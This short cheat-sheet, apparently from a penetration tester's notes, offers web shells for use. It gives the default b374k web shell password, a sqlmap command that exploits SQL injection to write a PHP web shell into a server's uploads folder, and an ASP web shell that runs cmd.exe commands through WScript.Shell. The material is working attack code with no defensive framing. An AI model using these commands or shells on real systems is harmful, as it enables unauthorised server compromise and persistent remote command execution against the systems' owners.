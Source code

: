 These web shells helped tons. They might help you as well.

### [b374k webshell password]
```
b374k
```

### [Uploading Webshell using sqlmap]
```
sqlmap -r file_request --file-write=/root/pwn/http/winterwolfshell.php --file-dest=/inetpub/wwwroot/uploads/winterwolfshell.php --batch
```

### [asp based webshell]
```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c dir C:\test > C:\inetpub\results.txt",0,True)
%>
```
